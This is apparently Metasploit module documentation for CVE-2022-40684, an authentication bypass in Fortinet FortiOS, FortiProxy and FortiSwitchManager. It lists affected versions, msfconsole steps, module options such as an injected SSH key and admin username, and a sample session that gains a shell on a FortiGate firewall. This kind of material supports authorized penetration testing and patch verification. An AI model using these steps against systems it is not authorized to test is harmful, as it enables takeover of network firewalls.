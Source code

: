 ## Vulnerable Application

An authentication bypass using an alternate path or channel vulnerability [CWE-288] in FortiOS (firewall) FortiProxy (web proxy), and FortiSwitch Manager products. The vulnerability allows remote, unauthenticated user to bypass authentication and gain access to the administrative interface of these products by using a specially crafted http/s request.

On October 3, 2022, Fortinet released a software update that addressed this vulnerability (CVE-2022-40684).

The following products are affected:

- FortiOS 7.0.0 to 7.0.6
- FortiOS 7.2.0 to 7.2.1
- FortiProxy 7.0.0 to 7.0.6
- FortiProxy 7.2.0
- FortiSwitchManager 7.0.0
- FortiSwitchManager 7.2.0


### Version and OS
This module has been tested successfully on FortiGate v7.2.0.

## Verification Steps
Confirm that functionality works:

1. Start `msfconsole`
2. `use exploit/linux/http/fortinet_authentication_bypass_cve_2022_40684`
3. set `RHOSTS`
4. set `HttpTrace true` (optional)
4. set `SSH_DEBUG true` (optional)
4. set `VERBOSE true` (optional)
4. `exploit`
5. Confirm you have now a cmd session

## Options

### TARGETURI (required)

The path to the Fotigate API (Default: `/`).

### USERNAME (required)

The username of the targed user (Default: `admin`).

### PRIVATE_KEY (optional)

The path for the SSH private key to be used to authenticate. It must be in PEM format.

Example how to generate it:
```
ssh-keygen -t rsa -m PEM -f `openssl rand -hex 8`
```

### KEY_PASS (optional)

The password for a given SSH private key (if it has one).

### SSH_RPORT (required)

The SSH port to connnect to (Default: `22`)

## Scenarios (FortiGate-100F v7.2.0)
```
msf6 exploit(linux/http/fortinet_authentication_bypass_cve_2022_40684) > exploit 

[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking XXX.XXX.XXX.XXX:443
[+] The target appears to be vulnerable. Target seems vulnerable
[*] Executing exploit on Interactive SSH
[*] Establishing SSH connection
[*] SSH session 1 opened (172.25.226.18:38791 -> XXX.XXX.XXX.XXX:22) at 2022-10-15 04:00:41 +0200

FW01 #  get sys status
Version: FortiGate-100F v7.2.0,build1157,220331 (GA.F)
Firmware Signature: certified 
```
